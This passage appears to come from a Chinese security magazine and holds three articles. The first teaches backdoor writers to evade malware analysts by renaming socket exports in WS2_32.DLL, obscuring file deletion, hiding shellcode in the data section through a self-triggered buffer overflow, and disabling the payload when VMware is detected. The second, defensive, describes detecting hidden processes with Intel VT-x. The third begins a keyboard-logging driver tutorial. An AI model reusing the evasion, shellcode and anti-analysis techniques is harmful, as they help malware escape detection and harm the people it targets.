这段代码就是构造 HTTP 包，然后下载数据并读写入文件。这样的代码写到程序当中，虽然已经看不出那么明显的痕迹了，但这个程序在被反汇编的时候，工程师能看到的函数就是 Socket 的相关函数。

Socket 函数应用太广泛了，基本每个网络应用程序都要使用相关函数。这时候，它就需要一点点把上面的代码反汇编并跟踪才能做出结论，这就增加了分析后门的时间。

当然，这样还远远不够。虽然我们调用的是 Socket 函数，但其本质还是一个网络应用程序。程序在被系统加载的时候，只要不是动态加载的函数全部都会存放在 PE 文件的输入表中。假设我们的 PE 文件输入表里没有 Socket 函数，那么程序就安全了许多。

这里我要放弃动态加载。由于 Socket 函数的特殊性，不能动态加载其中的一个或者几个函数，只要使用动态加载，那么整个程序中的所有 Socket 函数都需要动态加载。首先，PE 文件输入表函数是和 Windows 系统的一些 DLL 中的输出表函数对应的。比如 Socket 函数对应的 DLL 就是 WS2_32.DLL。

如果修改 WS2_32.DLL 中输出表的函数名，比如将 Socket 改成 ketsock，这时候后门程序建立 Socket 的代码就完全可以做如下调整：正常建立流套接字应写为 `Socket(AF_INET,SOCK_STREAM,IPPROTO_TCP)`，在修改过 WS2_32.DLL 输出表后，我们就可以写成 `ketsock(AF_INET,SOCK_STREAM,IPPROTO_TCP)`。这样的程序在被反汇编后，分析师看起来就比较费劲了。

其中为了保险起见，我们的参数还可以进行加密。当然，既要保证我们的程序能运行，也要保证其他网络应用程序能运行，还是要花一番功夫的。在以后的文章里，我会把这个问题当成一个专题来讲解。

而化简为繁的第二种方法就是增加 API 的执行步骤。比如说我们删除一个文件经常都直接使用 DeleteFile，但如果要删除 System32 目录下的文件就是很敏感的操作了。我们可以通过 MoveFile 先将文件剪切复制到另一个文件夹里面，中间穿插若干无用代码，再执行删除操作，或者直接移动到临时文件夹中。

这样效果会好很多。注意，这里并不是说能绕过高启发或者主动防御，只是说在程序被分析的时候增加分析的时间。我们来看下实际情况，假设我们删除 System32 下的一个名为 test.dll 的 DLL 文件，一般代码会这样书写：

```cpp
char szFileName[255];
GetSystemDirectory(szFileName,sizeof(szFileName));
strcat(szFileName,"\\test.dll");
DeleteFile(szFileName);
```

对于 DeleteFile 整个过程的汇编代码就是：

##### 编程解析

```asm
0040D4BD  mov esi, esp
0040D4BF  lea edx, [ebp-100h]
0040D4C5  push edx
0040D4C6  call dword ptr [__KERNEL32_NULL_THUNK_DATA (0042A21C)]
0040D4CC  cmp esi, esp
0040D4CE  call __chkesp (00401080)
```

这样的代码，工程师一眼就能看出你都做了些什么。接着我们做如下处理，由直接删除改成剪切，然后增加一些无用代码。

```c
char szFileName[255], szNewFile[255] = "C:\\test.dll";
HINSTANCE hInstance;
GetSystemDirectory(szFileName, sizeof(szFileName));
strcat(szFileName, "\\test.dll");
hInstance = LoadLibrary("kernel32.dll");
MoveFile(szFileName, szNewFile);
FreeLibrary(hInstance);
```

这里我动态载入了一个系统 DLL 文件，然后剪切文件，最后释放句柄。我们再来看下汇编代码：

```asm
00401092  mov esi, esp
00401094  push offset string "kernel32.dll" (0042201C)
00401099  call dword ptr [__imp__LoadLibraryA@4 (0042A150)]
0040109F  cmp esi, esp
004010A1  call __chkesp (00401240)
004010A6  mov dword ptr [ebp-204h], eax
004010AC  mov esi, esp
004010AE  lea edx, [ebp-200h]
004010B4  push edx
004010B5  lea eax, [ebp-100h]
004010BB  push eax
004010BC  call dword ptr [__imp__MoveFileA@8 (0042A158)]
004010C2  cmp esi, esp
004010C4  call __chkesp (00401240)
004010C9  mov esi, esp
004010CB  mov ecx, dword ptr [ebp-204h]
004010D1  push ecx
004010D2  call dword ptr [__imp__FreeLibrary@4 (0042A154)]
004010D8  cmp esi, esp
004010DA  call __chkesp (00401240)
```

这里可以看到，虽然我们只加入了 2 行代码和更换了删除文件的方式，但汇编代码已经是截然不同了。当然这里只是演示，实际上我们可以做更多的手脚。要知道，代码越长消耗的时间必然越多。如果病毒分析师采用软件分析，随意提取一个特征码，那么你的后门程序免杀起来将是异常简单的。

接着谈一下程序的反调试能力，通常情况下，反调试技术被用于软件保护上面。一般情况下，都采用多重代码加密来阻止调试。但随着各种调试插件的应用，这一方法逐渐变得不那么好使。这里我来说一种比较麻烦但很少使用的方法。随着现在开发平台的升级，我们已经很难了解编译器是怎么把程序代码转换成 PE 文件的，以及代码之间是如何链接的。但如果你想写出十分出色的后门程序的话，这就是你的必修课。你必须很清楚地知道，你写的代码由编译器生成的 PE 文件后什么样子的。比如说一个标准的 PE 文件，包含若干个数据节（section），text 中存放的是二进制的机器代码，也是我们反汇编和调试的对象。data 是初始化的数据块，如宏定义、全局变量、静态变量。idata 是可执行文件所使用的动态链接库等外来函数与文件的信息。rsrc 存放程序的资源，如图标、菜单等。当然，一个 PE 文件可能还有其他节，这里我们主要关心 .data 节。虽说可执行代码只能存在于 .text 中，但如果程序出现异常的话，.data 里的数据未必不能执行。比如说缓冲区堆栈溢出，我们可以人为地构造程序溢出，然后将敏感代码放到 shellcode 中，shellcode 作为全局变量，这样编译器在编译的过程中就会把 shellcode 生成到 .data 节中去。程序在调试过程中基本是看不出什么问题的。因为在调试过程中，只有出现溢出，跟踪寄存器的异常才能判断程序的变化。这样对于每天工作量很大的分析师来说，就有很大的几率从他眼下溜走。一般调试过程都是看函数执行过程，有敏感函数就下断点跟踪，没有基本就放过。我们就写这样一个演示代码：

```c
char szcopy[] = "\x41\x41\x41\x41"; // szfile[0]-szfile[3]
"\x41\x41\x41\x41"; // szfile[4]-szfile[7]
"\x41\x41\x41"; // 覆盖 ebp
"\x12\x45\xFA\x7F"; // imp_esp 的地址调用跳转地址
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90";
"\x55\x8B\xEC\x33\xC0\x50\x50\x60\x45\xF4\x4D\xC0\x45\xF5\x53"
"\xC6\x45\xF0\x56\xC0\x45\xF7\x43\xC6\x45\xF8\x52\xC6\x45\xF9\x54\xC6\x45\xFA\x28\xC6"
"\x45\xFB\x44\xC6\x45\xFC\x4C\xC6\x45\xFD\x4C\xBA"
"\x77\x1D\x80\x7C"; // XP_SP2_LoadLibrary 地址
```

```c
void myload()
{
    char szfile[8];
    strcpy(szfile, szcopy);
    for (int i = 0; i < 8 && szfile[i]; i++)
    {
        printf("%d", szfile[i]);
    }
}

int main(int argc, char* argv[])
{
    HANDLE hThreadSnap = NULL;
    PROCESSENTRY32 pe32;
    BOOL bet;
    hThreadSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hThreadSnap == INVALID_HANDLE_VALUE)
        return FALSE;
    pe32.dwSize = sizeof(PROCESSENTRY32);
    bet = Process32First(hThreadSnap, &pe32);
    while (bet)
    {
        bet = Process32Next(hThreadSnap, &pe32);
    }
    myload();
    return 0;
}
```

```asm
004012B  mov dword ptr [ebp-12Ch], 1Ch
0040135  lea eax, [ebp-12Ch]
004013B  push eax
004013C  mov ecx, dword ptr [ebp-4]
004013F  push ecx
0040140  call Process32First
0040145  mov dword ptr [ebp-130h], eax
004014B  cmp dword ptr [ebp-130h], 0
0040152  je  main+7Ch
0040154  lea edx, [ebp-12Ch]
004015A  push edx
004015B  mov eax, dword ptr [ebp-4]
004015E  push eax
004015F  call Process32Next
0040164  mov dword ptr [ebp-130h], eax
004016A  jmp main+58h
004016C  call myload
```

这样的代码在调试器面前已经初步隐藏了我们的真实意图，最起码一眼扫过去只是执行了些正常操作。Shellcode 被编译器写进了 .data 节中，只有调试器跟踪下去才能看到。而对于 .data 中的数据，我们又可以采用多种方式进行加密，从而只在程序真正执行并且触发溢出的时候才会执行我们想要执行的代码。

这里还提到反虚拟机问题：程序在调试时常在虚拟机环境中运行，如果程序发现自己运行在虚拟机中，可删除或关闭后门逻辑，使样本看起来无害。

其中主程序非常简单，就是创建一个系统进程快照，遍历系统当前进程，拷贝字符串。myload 是构造的自溢出函数，shellcode 部分用于开启一个 DOS 对话框。由于篇幅原因，实际运用中可替换 shellcode，下面继续看该程序的汇编代码。

```asm
0040115  push 0
0040117  push 4
0040119  call CreateToolhelp32Snapshot
004011E  mov dword ptr [ebp-4], eax
0040121  cmp dword ptr [ebp-4], 0FFFFFFFFh
0040125  jne main+3Bh
0040127  xor eax, eax
0040129  jmp main+83h
```

```c
while (bet)
{
    if (pe32.szExeFile == "VMwareTray.exe")
        memset(szcopy, 0, sizeof(szcopy));
    bet = Process32Next(hThreadSnap, &pe32);
}
```

对于常见的虚拟机 VMware 来说，我们检测虚拟机的主要进程 VMwareTray.exe；如果检测到该进程，则执行清理或禁用后续 payload 的逻辑。

前置知识：无  
关键词：Intel VT-x 隐藏进程

> （编辟提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

##### 基于 Intel VT-x

###### 检测隐藏进程

文／刘新文

要检测隐藏进程，首先必须获得系统中可信的进程列表，然后通过对比常规方法获得的非可信列表，两者的差集即为隐藏进程。因此，检测隐藏进程的关键在于如何获取可信的进程列表。

###### DKOM 隐藏进程

要获取当前的活动进程列表，需要枚举其一一对应的标识结构，在 Windows 系统中这个标识结构为 EPROCESS。原本系统中维持有一个 EPROCESS 结构的双向链表 PsActiveProcessList，每个结点对应一个当前系统中的活动进程，包括系统提供的查询函数 ZwQuerySystemInformation 在内，都是通过遍历此链表列出运行的进程。但是采用 DKOM 技术的 Rootkit 可以通过将指定进程的 EPROCESS 结构从链表中摘除以达到隐藏进程的目的，这种隐藏对于大多数进程枚举方法都是有效的。需要注意的是，将指定的 EPROCESS 从链表中摘除并不会影响该进程（线程）的调度运行，因为 OS 的调度是基于线程的，使用另一个线程结构链表。

对付这种基于 DKOM 的进程隐藏，有人提出一种通过调度程序（scheduler）列表来枚举进程的方法。在 Windows 2000 上有三个维护线程的双向链表（KiWaitInListHead、KiWaitOutListHead、KiDispatchReadyListHead），前两个链表包含等待某种事件的线程，第三个包含的是等待执行的线程，通过处理这些链表就可得到系统中每个线程的 ETHREAD 结构，其中包含所属进程的 EPROCESS 结构，从而可以枚举系统中的活动进程。这种方法的处理还是相对复杂的，而在支持 VT-x 技术的处理器上，我们可以采用一种非常简单的方法枚举出系统中的活动进程。

###### 检测原理

在 Windows 进程切换过程中有一个寄存器是一定会改变的，那就是 CR3。OS 将其作为当前进程的页目录基址寄存器（PDBR），当发生进程环境切换时，会将新进程的页目录基址放入 CR3 中。因此，通过监视 CR3 寄存器的改变，就可以捕获到进程的环境切换。如果在进程环境切换的同时获取将要执行的进程信息，那么就有可能枚举出所有的活动进程了。查阅资料发现，在 CR3 改变之前，新线程（线程为调度单位）的环境已经被加载，处理器的 KPCR 结构已经被更新。通过 KPCR 可以找到新线程的 ETHREAD 结构，进而通过其找到 EPROCESS 结构，从而获得其所属进程的信息。现在，需要寻找一种方法，可以捕获到 CR3 的改变，并中断系统执行，待我们获取到将要执行的进程信息时再恢复系统。处理器虚拟化技术（Intel 称为 VT-x）提供了这样的支持。

##### Intel VT-x 实现检测

2005 年来，Intel 在其新推出的 CPU 中加入了硬件虚拟化技术，称为 Intel VT-x。简单地说，就是提供了两种 CPU 运行模式：root 和 non-root。两个模式可以通过指令（VMLaunch、VMResume、VMExit）相互切换，并且可以进行设置，在 non-root 模式运行中发生某些事件时自动切换模式进入到 root 模式下的处理例程中，处理完毕后可以通过 VMResume 返回 non-root 模式继续运行。这项技术本是用于虚拟化，即构建虚拟机监视器（VMM）的，但其具有的特性同样可以用于做很多事情，如入侵防护（IPS）、调试器等。本文将其用于检测隐藏进程（有关 Intel VT-x 的具体细节请参见 Intel 开发手册第三卷）。

Intel VT-x 的应用是相当复杂的，好在 Shawn Embleton 已经实现了一个简单的 VMM 框架，可以将当前系统作为 Guest OS 在 non-root 模式下运行，并且可以设置相应的退出条件，当 Guest OS 中满足这些条件时会自动退出 non-root 模式，进入 root 模式下的处理例程，待完成相关操作后返回 non-root 模式继续运行。此框架的源代码可以在网上找到。我们可以在其中加入相关代码，以实现检测隐藏进程的功能。

Intel VT-x 提供了一个专用的结构，称为虚拟机控制块（VMCS，Virtual Machine Control Structure），其包含六个区域：Guest-state area、Host-state area、VM-execution control fields、VM-exit control fields、VM-entry control fields、VM-exit information fields。其中 VM-execution 区域用于设置退出条件，而 VM-exit information fields 获得退出时的信息，包括退出原因等。

为了捕获 CR3 寄存器的加载，即 Mov To CR3，需要将 VM-execution 的 Process-Based VM-Execution controls（编码 0x00004002）中的 15 位置 1，另外还要将 CR3-Target count（编码 0x0000400A）置 0，代表无论向 CR3 写入任何值都将引起退出。

```c
//-----设置相应 VM-execution 条件位-----//
SetBit(&temp32, 15);   // CR3-load exiting
Log("Setting Pri Proc-Based Controls Mask", temp32);
WriteVMCS(0x00004002, temp32);

//-----置 CR3-Target count 为 0-----//
WriteVMCS(0x0000400A, 0);
```

这样当 non-root 模式下 CR3 被改动（即发生进程切换）时，将会退出进入处理例程 VMMEntryPoint()，其中需要对退出条件进行判断，Mov To CR3 引起的退出原因为 0x0000001C。实际上控制寄存器访问所引发的退出都属于此原因，还要继续判断，满足如下条件即代表 Mov To CR3：

```c
if (movcrControlRegister == 3 && movcrAccessType == 0 && movcrOperandType == 0 && movcrGeneralPurposeRegister == 0)
{
    WriteVMCS(0x00006802, GuestRAX);
    // 获取进程信息
    __asm POPAD
    goto Resume;
}
```

其中“movcrControlRegister==3”代表 CR3，“movcrAccessType==0”代表 Mov To（1 为 Mov From），“movcrGeneralPurposeRegister==0”代表源寄存器为 EAX，以上条件代表“Mov CR3, EAX”，操作系统就是通过这条指令来加载页目录基址的。现在开始获取进程信息：

```c
//-----获得即将执行的进程信息-----//
// 动态获取 Kpcr 地址，XP SP3 上为 0xFFDFF000
__asm {
    MOV EAX, FS:[0x1C]
    MOV pKpcr, EAX
}
pKprcb = pKpcr + 0x120;
// KPRCB + 0x004 处为 CurrentThread 地址
pEthread = (PETHREAD)(*((ULONG*)(pKprcb + 0x004))); // 32 位地址
pEprocess = (PEPROCESS)(*((ULONG*)((ULONG)pEthread + 0x220)));
if (pEprocess != 0) {
    ulProcessId = *((ULONG*)((ULONG)pEprocess + 0x84));
    cstr = (PCSTR)((ULONG)pEprocess + 0x174);
    RtlCopyMemory(strProcessName, cstr, 16);
    strProcessName[15] = '\0';
}
```

```c
KdPrint(("PID:%d, 进程名:%s\n", ulProcessId, strProcessName));
```

上面的代码已经比较清楚了，有点需要注意的是，对于内核系统线程没有所属的进程，它的 `P.Eprocess` 指针为 0，所以加入了一个判断。

可以看出，这种检测进程的方法实际非常简单，就是捕获进程运行的必经过程来获得可信进程列表。实际上这是一种动态获取进程列表的方法，但由于 CPU 的运行速度很快，所有的活动进程在很短时间内都会有运行的机会。

前置知识：VC  
关键词：编程、驱动、键盘监听

#### 基于分层的键盘监听驱动程序的编写



文／图  杨阳  赵友华

最近学习了《Rootkits: Subverting the Windows Kernel》的分层驱动中的键盘监听驱动程序的编写一文。以下就是学习这篇文章的一些心得体会，第一次写驱动方面的文章，恳请大家多提宝贵意见及建议。

##### 驱动程序相关知识

应用程序的运行一般分为用户模式和内核模式两种，如图 1 所示。应用程序的运行实际上就是提出了一些 I/O 请求，驱动程序的主要功能是负责处理这些 I/O 请求，而绝大多数的 I/O 请求是在驱动程序的派遣函数中处理的。Windows 内核中的 I/O 请求是通过 IRP（I/O Request Packet，输入/输出请求包）完成的，IRP 是由 I/O 管理器发出的。I/O 管理器是用户模式与内核模式之间的桥梁。


当用户模式中的进程发出 I/O 请求时，I/O 管理器就捕获这些请求，将其转化成 IRP 请求，发给驱动程序，如图 2 所示。其中，步骤 1 是用户模式中的应用程序将 I/O 请求发送到内核模式中的 I/O 管理器；步骤 2 是 I/O 管理器根据 I/O 请求产生一个 IRP，并将该 IRP 发送给相应的驱动程序；步骤 3 中驱动程序完成 I/O 操作，并将操作结果传递给 I/O 管理器；步骤 4 中 I/O 管理器将操作结果反馈给应用程序。



```c
if (CreateFile(...) == INVALID_HANDLE_VALUE) {
    printf("创建文件失败");
}
```

创建文件的请求发送给 I/O 管理器，I/O 管理器根据这个请求创建一个创建文件的 IRP，并将该 IRP 发送给与创建文件相关的驱动程序，驱动程序执行创建文件的动作，然后将执行的结果传递给 I/O 管理器，最后 I/O 管理器将这个结果反馈给应用程序。

对于分层驱动，IRP 中的每个 `IO_STACK_LOCATION` 结构对应一层驱动程序。当某一层的驱动程序处理完 IRP 后，会将该 IRP 传递给下一层驱动程序，如图 3 所示。IRP 中 `IO_STACK_LOCATION` 结构的指针会相应地指向该驱动所对应的 `IO_STACK_LOCATION` 结构。可以通过 `IoSkipCurrentIrpStackLocation` 宏和 `IoCallDriver()` 函数来移动 `IO_STACK_LOCATION` 结构的指针。其中，`IoSkipCurrentIrpStackLocation` 宏的作用是将指针向上层驱动对应的 `IO_STACK_LOCATION` 移动，`IoCallDriver()` 函数是将指针向下层驱动对应的 `IO_STACK_LOCATION` 移动。

##### 驱动程序的通用派遣函数

在 `Klog.cpp` 执行文件的驱动程序入口函数 `DriverEntry()` 中，利用 `for` 语句将驱动对象的派遣函数数组中所有的函数指向一个通用函数 `DispatchPassDown()`。

```cpp
for (int i = 0; i < IRP_MJ_MAXIMUM_FUNCTION; i++)
{
    pDriverObject->MajorFunction[i] = DispatchPassDown;
}
```

其中，常量 `IRP_MJ_MAXIMUM_FUNCTION` 表示派遣函数数组中元素的个数；`pDriverObject` 表示设备驱动对象的指针，是入口函数 `DriverEntry()` 的第一个参数。

通用函数 `DispatchPassDown()` 没有任何功能，该函数在 `Klog.cpp` 执行文件中定义。

```cpp
NTSTATUS DispatchPassDown(IN PDEVICE_OBJECT pDeviceObject, IN PIRP pIrp)
{
    IoSkipCurrentIrpStackLocation(pIrp);
    return IoCallDriver(((PDEVICE_EXTENSION)pDeviceObject->DeviceExtension)->pKeyboardDevice, pIrp);
}
```

`DispatchPassDown()` 函数的第一个参数是设备对象的指针，第二个参数是 IRP 结构的指针。`IoSkipCurrentIrpStackLocation` 是一个宏，该宏的作用是使得 IRP 中当前的 `IO_STACK_LOCATION` 指针少向前走一步，而函数 `IoCallDriver()` 的作用是使得 IRP 中当前 `IO_STACK_LOCATION` 指针向前走一步。`IoSkipCurrentIrpStackLocation` 宏与 `IoCallDriver()` 函数联合使用的结果是 IRP 中 `IO_STACK_LOCATION` 指针不变，也就使得下一层驱动对应的是正确的 `IO_STACK_LOCATION`。



##### 巡查观察与键盘堆栈

Windows 的每个设备驱动模块都由两种“对象”代表：一种是“驱动对象”，即 Driver Object；另一种是“设备对象”，即 Device Object。设备对象通常是由驱动对象创建的，驱动对象在其初始化的过程中创建设备对象。可以这么理解，驱动对象和设备对象其实是同一事物的两面，驱动对象是其中抽象的一面，而设备对象是具体的一面。设备驱动模块一般是堆叠的，如图 4 所示。从图中可以看出，上下层之间形成堆叠的是设备对象而不是驱动对象。设备对象形成的堆叠称为“设备堆栈”。本文涉及的驱动程序的设备对象是堆叠在设备堆栈之上的，如图 5 所示。从图中分析可知，本文涉及的键盘监听驱动程序的步骤是首先创建一个设备对象，之后将设备对象挂载到键盘的设备堆栈之上。以上功能是通过 `HookKeyboard()` 函数实现的，该函数在 `KdbHook.cpp` 执行文件中定义。

在 `HookKeyboard()` 函数中，调用 `IoCreateDevice()` 函数创建设备对象。

```cpp
NTSTATUS status = IoCreateDevice(pDriverObject,
    sizeof(DEVICE_EXTENSION),
    NULL,
    FILE_DEVICE_KEYBOARD,
    0,
    TRUE,
    &pKeyboardDeviceObject);
```

##### 编程解析



